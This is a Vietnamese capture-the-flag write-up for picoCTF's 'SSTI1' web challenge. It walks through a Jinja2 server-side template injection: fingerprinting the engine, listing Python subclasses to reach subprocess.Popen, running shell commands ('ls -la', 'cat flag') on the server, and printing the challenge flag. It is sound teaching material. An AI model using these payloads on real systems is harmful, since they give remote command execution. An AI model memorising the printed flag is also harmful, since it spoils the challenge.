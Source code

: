 # SSTI1

Web, 100 points

## Description:

> I made a cool website where you can announce whatever you want! Try it out!

> Additional details will be available after launching your challenge instance.

## Hint:

> 1.  Server Side Template Injection

## Solution:

Nhìn vào đề bài và hint ta cũng xác định được trang web bị 1 lỗi khá nghiêm trọng đó là SSTI (Server Side Template Injection). Để xác định loại SSTI nào thì ta có thể tiêm 1 số câu lệnh

![](../images/template-decision-tree.png)

Ví dụ, payload {{7*'7'}} trả về 49 trong Twig và 7777777 trong Jinja2

Thì trang web này với payload ` {{7*'7'}}` trả về 7777777 nên ta có thể xác định đây là kiểu JinJa2 1 loại khá phố biến

Mục tiêu của mình là xác định tệp chứa flag để có thể đọc được

```
{{ self.__class__.__mro__[1].__subclasses__()}}
```

Payload này dùng để liệt kê tất cả các class con của lớp cha đầu tiên của `self.__class__` thường là **object** trong python

Mục tiêu tiếp theo là tìm class `subprocess.Popen` để có thể chạy được lệnh các lệnh hệ thống như liệt kê các file...

Dùng notepad++ :))) biết được class `subprocess.Popen` ở vị trí 356

```
{{ self.__class__.__mro__[1].__subclasses__()[356]('ls -la', shell=True, stdout=-1).stdout.read()}}
```

Giờ thì dễ rồi ta sử dụng payload này để liệt kê tất cả các file trong hệ thống và thấy được có file tên flag

```
b'total 12\ndrwxr-xr-x 1 root root 25 Mar 24 15:02 .\ndrwxr-xr-x 1 root root 23 Mar 24 15:02 ..\ndrwxr-xr-x 2 root root 32 Mar 24 15:02 __pycache__\n-rwxr-xr-x 1 root root 1241 Mar 6 03:27 app.py\n-rw-r--r-- 1 root root 58 Mar 6 19:44 flag\n-rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt\n'
```

```
{{ self.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).stdout.read()}}
```

Giờ thì lụm flag thoii

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```
